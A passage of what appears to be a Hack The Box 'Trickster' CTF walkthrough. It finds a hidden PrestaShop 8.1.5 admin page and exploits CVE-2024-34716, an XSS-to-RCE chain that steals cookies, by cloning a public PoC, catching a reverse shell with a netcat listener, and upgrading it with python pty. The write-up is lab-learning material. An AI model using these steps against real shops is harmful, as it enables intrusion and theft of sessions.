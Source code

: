```text
diff --git a/admin634ewutrx1jgitlooaj/themes/default/js/jquery.fileupload.js b/admin634ewutrx1jgitlooaj/themes/default/js/jquery.fileupload.js
new file mode 100644
index 0000000..7d1c7eb
--- /dev/null
+++ b/admin634ewutrx1jgitlooaj/themes/default/js/jquery.fileupload.js
@@ -0,0 +1,1384 @@
```

Entering `http://shop.trickster.htb/admin634ewutrx1jgitlooaj/` gives the admin login page. Version is `8.1.5` .
![admin_page](/assets/img/htb/trickster.htb/admin.png){: width="800" height="500" }

### CVE-2024-34716

There is a XSS vulnerability on PrestaShop 8.1.5 by creating a malicious PNG file which executes js code and steals the cookies from who viewed the file, attacker can use the stolen cookies to upload a malicious .zip and download theme which results with remote-code execution. There is a public POC available by the founder of the vulnerability.
This is also updated version of the original POC which was kinda messy. To learn more about the exploit, read this [**blog**](https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/) .

Use `git clone https://github.com/aelmokhtar/CVE-2024-34716` and run `exploit.py`. 

```console
┌─[suce@parrot]─[~/Desktop/htbMachines/medium-trickster]
└──╼ $ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.10.14.145] from (UNKNOWN) [10.129.136.211] 51484
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 17:11:28 up 19 min,  0 users,  load average: 0.39, 0.25, 0.19
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
## Shell as james
Switching to better shell.
```text
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```